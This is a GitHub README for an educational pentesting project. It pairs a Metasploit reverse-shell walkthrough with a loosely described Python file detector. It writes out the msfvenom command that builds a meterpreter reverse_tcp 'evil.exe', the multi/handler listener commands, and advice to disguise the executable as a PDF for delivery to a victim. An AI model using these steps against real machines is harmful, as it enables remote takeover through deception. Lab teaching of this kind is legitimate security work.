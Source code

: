# cyber-sentinal
# 🛡️ (based on) ----Reverse Shell Listener & Malicious File Detector – Educational Pentesting Project 

This project demonstrates how to set up a **reverse TCP shell payload** using the Metasploit Framework and how to detect and remove **suspicious or potentially malicious files** using a custom Python script.

> ⚠️ This project is strictly for **educational** and **ethical hacking** purposes in **controlled lab environments only**.

---

## 🔧 Features

- ✅ Generate `windows/meterpreter/reverse_tcp` payloads with `msfvenom`
- ✅ Host payloads on a local Apache2 web server (`/var/www/html`)
- ✅ Configure and run Metasploit `multi/handler` to catch incoming shells
- ✅ Disguise `.exe` payloads as `.pdf` using social engineering tactics
- ✅ Scan for suspicious files and attempt to delete them

---

## 🧠 Educational Objectives

- Learn how reverse shells operate and connect back to a C2 listener
- Understand how payloads can be served and disguised for social engineering
- Gain hands-on experience with Metasploit Framework and msfvenom
- Develop basic detection techniques for suspicious or unauthorized files

---

## 📌 Requirements

- Kali Linux (2023 or newer preferred)
- Metasploit Framework
- Apache2 (for payload hosting) 
- Python3
- Local network or port-forwarding capability

---
NOW LET's START WITH REAL DEAL---------

## 🚀 Getting Started

### 1. Generate Payload

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 -f exe -o /var/www/html/evil.exe
```

### 2. Start Metasploit Listener

```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST YOUR_IP
set LPORT 4444
run
```

### 3. Deliver Payload

Host your `.exe` file via your web server or disguise it (e.g., rename to `report.pdf.exe`) and send it to your test victim in a controlled lab environment.

### 4. Detect and Remove Suspicious Files (Python Script)

Example behavior:

- Scans directories for `.exe`, `.bat`, `.vbs`, etc.
- Compares known good and suspicious file patterns
- Deletes files that match suspicious criteria (optional, controlled)

```bash
python3 detect_and_remove.py
```

---

## 🧪 Example Use Cases

- Simulate a phishing attack in a closed lab
- Raise awareness about file-based malware
- Test detection tools
- Practice incident response

---

## 📁 Folder Structure

```
├── detect_and_remove.py
├── payloads/
│   └── evil.exe
└── README.md
```

---

## ⚠️ Disclaimer

This tool is for **educational** and **research** purposes only. Misuse of this tool outside of authorized environments is illegal and unethical. Always get proper consent before running any form of penetration testing or file manipulation.

---

--NOW COMING TO DETECT AND REMOVE IT-----
we are going to use our antivurs to detect it;;

🧰 Threat Detection & Antivirus Script (Python)
This Python script acts as a lightweight antivirus and threat analyzer designed for ethical hacking environments and cybersecurity education. It scans a given file and system for suspicious characteristics and deletes known threats (like evil.exe) when identified.

🔍 Key Features
>🧠 Process Monitoring: Detects suspicious running processes (e.g. evil.exe)

>📦 File Size Inspection: Flags abnormally large files

>🧾 File Hashing: Computes SHA-256 hash and compares against known malicious hashes

>🧬 Metadata Analysis: Extracts and displays image metadata (Exif data)

>🔏 Digital Signature Check (Windows Only): Verifies file authenticity

>🧪 VirusTotal Integration: Queries online database to check file reputation

>🧹 Auto-Deletion: Deletes files with dangerous names or characteristics


🧪 How It Works
--The script performs layered analysis on a suspicious file:

>Checks if the file name is "evil.exe" (a common attack name)

>Scans running processes to look for known malware executables

>Inspects file metadata to reveal potentially hidden data or suspicious camera info

>Verifies digital signatures (only on Windows)

>Submits SHA-256 hash to VirusTotal for real-time AV engine checks

>Deletes file automatically if it's dangerous or listed in your local hash blacklist

🔧 Requirements
>bash
>Copy
>Edit
>pip install psutil requests pyexiv2 pywin32


🛡️ Usage
Edit the last line of the script to point to the file you want to scan:

>python
>downloaded_file_path = 'path/to/suspect_file.exe'
>Edit
>downloaded_file_path = 'path/to/suspect_file.exe'
Then run:
python3 protector.py


## 👨‍💻 Author

Made with 💻 and ⚔️ for learning and awareness in cybersecurity.

by CODE BLOODED
